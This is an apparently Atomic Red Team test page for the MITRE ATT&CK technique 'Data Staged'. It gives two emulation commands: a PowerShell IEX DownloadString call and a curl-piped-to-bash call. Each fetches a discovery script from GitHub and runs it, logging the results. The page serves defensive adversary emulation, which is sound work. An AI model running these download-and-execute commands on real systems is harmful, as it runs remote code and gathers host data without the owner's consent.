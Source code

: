 # T1074 - Data Staged
## [Description from ATT&CK](https://attack.mitre.org/wiki/Technique/T1074)
<blockquote>Collected data is staged in a central location or directory prior to Exfiltration. Data may be kept in separate files or combined into one file through techniques such as [Data Compressed](https://attack.mitre.org/techniques/T1002) or [Data Encrypted](https://attack.mitre.org/techniques/T1022).

Interactive command shells may be used, and common functionality within [cmd](https://attack.mitre.org/software/S0106) and bash may be used to copy data into a staging location.</blockquote>

## Atomic Tests

- [Atomic Test #1 - Stage data from Discovery.bat](#atomic-test-1---stage-data-from-discoverybat)

- [Atomic Test #2 - Stage data from Discovery.sh](#atomic-test-2---stage-data-from-discoverysh)


<br/>

## Atomic Test #1 - Stage data from Discovery.bat
Utilize powershell to download discovery.bat and save to a local file

**Supported Platforms:** Windows


#### Run it with `powershell`! ```
"IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/redcanaryco/atomic-red-team/master/ARTifacts/Misc/Discovery.bat')" > c:\windows\pi.log
```



<br/>
<br/>

## Atomic Test #2 - Stage data from Discovery.sh
Utilize curl to download discovery.sh and execute a basic information gathering shell script

**Supported Platforms:** Linux, macOS


#### Run it with `bash`! ```
curl -s https://raw.githubusercontent.com/redcanaryco/atomic-red-team/master/atomics/T1074/Discovery.sh | bash -s > /tmp/discovery.log
```



<br/>
